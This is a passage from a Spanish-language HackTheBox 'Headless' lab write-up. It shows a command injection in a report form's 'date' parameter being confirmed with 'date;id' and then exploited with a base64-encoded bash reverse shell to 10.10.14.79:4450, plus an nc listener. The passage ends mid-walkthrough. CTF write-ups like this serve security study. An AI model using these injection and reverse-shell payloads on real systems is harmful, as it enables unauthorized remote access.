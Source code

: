 Al hacer clic sobre **Generate Report** obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-page80-dashboard-generate-report.png" style="width: 100%;"/>

Procedemos a interceptar la petición de nuevo con **Burp Suite** (y la guardamos con el **Repeater**):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-burp-req-page80-dashboard.png" style="width: 90%;"/>

Una petición sencilla, toma el parámetro `date` y hace cosas locas por detrás...

Francamente, lo primero que pensé al ver ese parámetro fue en una [inyección de comandos](https://blog.hackmetrix.com/command-injection/). Me recordó mucho al comando `date` de los sistemas operativos tipo `unix` y dije "¿será?"

Entonces probé una concatenación de comandos, para que después del presunto `date` ejecutado, llame al comando `id` (el cual nos dice el nombre del usuario que ejecuta el proceso y además los grupos a los que está asociado):

```bash
date;id
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-burp-req-page80-dashboard-command-injection-id.png" style="width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/headless/htb594-burp-res-page80-dashboard-command-injection-id.png" style="width: 100%;"/>

AJAJAII! Confirmada la inyección de comandos :P

Para obtener una shell reversa (que el sistema víctima nos envíe una conexión para generar una terminal de forma remota) podemos usar este método:

1️⃣ Encodeamos el payload en **base64**:

```bash
➧ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.79/4450 0>&1'" | base64 -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDUwIDA+JjEnCg==
```

> Le decimos a la máquina remota que reenvie una `bash` al puerto en escucha `4450` del servidor `10.10.14.79`.

2️⃣ Levantamos puerto **4450**:

```bash
nc -lvp 4450
```

3️⃣ Organizamos el parámetro **date** con la info necesaria:

```html
date=2023-09-15;echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDUwIDA+JjEnCg==|base64 -d|bash
```

> El comando imprime la cadena codificada con la reverse shell, la decodea y la ejecuta.

4️⃣ Evitamos errores causados por los espacios y caracteres especiales:

Desde Burp seleccionamos todo el comando que vamos a inyectar (desde **echo** hasta **bash**) y oprimimos `CTRL+U`, con esto se URL encodea la cadena.
